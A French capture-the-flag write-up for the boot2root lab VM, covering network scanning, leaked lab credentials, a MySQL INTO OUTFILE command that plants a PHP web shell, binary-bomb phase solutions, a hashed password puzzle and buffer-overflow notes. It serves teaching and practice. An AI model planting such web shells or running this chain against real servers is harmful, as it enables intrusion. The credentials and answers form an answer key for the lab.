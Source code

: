 # Etape 1:
Pour récuperer l'adresse IP de la VM on lance un nmap pour scanner le réseau
```bash
nmap -A 172.16.96.1/24
```
Quand nous lancon boot2root, la vm ouvre un port https.
Avec un dirbuster nous avous a trouver que le path /forum et /webmail exist.
Dans le forum nous trouvons des logs qui nous permette de leaker le mot de passe de lmezard:!q\]Ej?*5K5cy*AJ
Avec l'email de lmezard nous arrivons a nous connecter a sa boite mail ou un mail avec les identifiant root de mysql sont present root:Fg-'kKXBj87E:aJ$
Dans mysql nous pouvont ecrire dans le system avec un commande du style OUTFILE.
Nous pouvons trouver l'arborescence de mylittleforum sur son github. Finalement il semble que le dossier templates_c soit accessible en ecriture.
On peut upload un shell avec cette command.
SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE "/var/www/forum/templates_c/shell.php"
nous pouvons telecharger les identifiant du ftp dans /home/LOOKATME
lmezard
G!@M6f4Eatau{sF"

# Etape2:
Avec ces identifiant nous pouvont ensuite telecharger une tarball fun
Cette tarball contenait un dossier ft_fun qui conténer a son tour des fichier pcap.
Dans chaque fichier pcap il y avait un comment qui préciser l'order de ce fichier par rapport au autre. 
Une fois reconstituer ces fichier formée un code source C qui une fois compiler demander de hasher un mot de passe.
Un fois hasher, le resultat consituer le mot de passe de laurie.
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# Etape3:
Pour récuper le mot de passe de thor nous devons desarmorcer des bombe succésive.
Pour desamorcé la premiere phase il suffit de rentré la chaine
Public speaking is very easy.

Pour la deuxieme phase, il suffit juste de rentré une suite de nombre dont chaque element est le resultat de sa position+1 * le nombre precedent
La suite commence par 1

1 2 6 24 120 720

La troisieme phase est une fonction qui attend trois argument de type int, char, int.
Le premier int est une sousfonction qui compare le deuxieme est troisieme argument.
C'est une jump table.
Au total voici les solution:
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524

Pour la quatrieme phase, il suffit de trouver le nombre qui quand on le rentre dans la fonction fibonacci le resultat est 55 en decimale.
Ce nombre est 9.

Pour la cinquieme phase, il faut reussit a traduire l'input saisie vers "giants" avec l'encodage suivant "isrveawhobpnutfg".
Equivalemnt a xlatb en assembler.
Le code fait juste un bitwise and sur les character. Il y a donc plusieur solution.

Pour la sixième phase, La bombe regarde d'abort si dans la sequence il n'y a pas de doublon est que les nombre sont entre 1-6.
En fonction des nombre il arrange une liste chainer dont les indice des noeuds sont egaux a ceux des nombre rentré.
Les noeuds de la link list sont comme suit:

struct Node {
	int number;
	int order;
	struct Node* next;
};

Il itere dans la suite pour voir les number sont en ordre décroissant. Si il le sont la bombe peux etres desamorcé ;).

0x804b26c <node1>:      0x000000fd      0x00000001      0x0804b260
0x804b260 <node2>:      0x000002d5      0x00000002      0x0804b254
0x804b254 <node3>:      0x0000012d      0x00000003      0x0804b248
0x804b248 <node4>:      0x000003e5      0x00000004      0x0804b23c
0x804b23c <node5>:      0x000000d4      0x00000005      0x0804b230
0x804b230 <node6>:      0x000001b0      0x00000006      0x00000000

4 2 6 3 1 5

A noter que dans cette exercise il y a une partie cacher avec des arbre binaire.
il suffit de rajouter austinpowers a la quatrieme phase

9 austinpowers 

Le dernier exercice utilise cette arbre binaire.
Pour desamorcé la phase cache il faut rentré le nombre 1001

                         36         
              /                      \
             8                        50
         /       \                /        \
        6         22             45         107
       / \       /  \           /  \       /   \
      1   7     20   35        40   47    99   1001

Apres plusieur essaie, et une visite sur le slack qui nous informe qu'il faut swap les deux dernier character, le mot de passe est le suivant:
thor
Publicspeakingisveryeasy.126241207201b2149opekmq426135

# Etape4:
On a un fichier turtle qui donne des indications pour la librairie turtle de python.
On fait un script python pour nettoyer le fichier et on passe les instructions au module turtle.py.
Sa nous affiche un mot de passe "SLASH" sous forme de dessin que l'on doit hasher en md5
```bash
echo -n "SLASH" | md5
646da671ca01bb5d84dbb5fb2238dc8e
```

# Etape5:
Nous pouvons voir que sur la machine l'ASLR est desactivé.
cat /proc/sys/kernel/randomize_va_space -> $00
La stack est executable.
readelf -a exploit_me | grep GNU_STACK -> RWE
Le programe copy argv[1] avec strcpy. Il suffit donc de faire un shellcode sans null byt\
e.

